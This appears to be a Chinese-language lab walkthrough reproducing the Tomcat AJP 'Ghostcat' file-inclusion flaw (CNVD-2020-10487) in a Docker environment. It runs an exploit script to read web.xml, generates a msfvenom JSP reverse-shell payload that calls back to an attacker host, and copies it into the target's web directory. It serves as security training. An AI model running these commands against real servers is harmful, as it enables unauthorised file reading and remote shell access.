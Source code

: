 #### 文件包含

```
chmod +x CNVD-2020-10487-Tomcat-Ajp-lfi.py 
```



```python
python2	CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.70.14	-p 8009 -f "/WEB-INF/web.xml"
```

![image-20240716093029568](https://image.201068.xyz/assets/image-20240716093029568.png)

#### 进入docker容器终端

```
docker exec -it cve-2020-1938-tomcat-1 /bin/bash
```

##### 查看文件内容

`/WEB-INF/web.xml`

```
cd /usr/local/tomcat/webapps/ROOT/WEB-INF/
cat web.xml
```

##### 查看日志

```
cd /usr/local/tomcat/logs
cat localhost_access_log.*.txt
```

![image-20240716095209225](https://image.201068.xyz/assets/image-20240716095209225.png)

#### kali上传msf木马

##### 生成 java 木马

```
msfvenom -p	java/jsp_shell_reverse_tcp LHOST=192.168.70.4 LPORT=6666 -f raw > tomcat.jsp
```

![image-20240716104657028](https://image.201068.xyz/assets/image-20240716104657028.png)

##### 远程拷贝到靶机。

```
scp tomcat.jsp root@192.168.70.14:/root/
```

![image-20240716104746846](https://image.201068.xyz/assets/image-20240716104746846.png)

##### centos靶机拷贝到docker容器网站目录下

```
docker cp /root/tomcat.jsp cve-2020-1938-tomcat-1:/usr/local/tomcat/webapps/ROOT/WEB-INF/tomcat.jsp
```
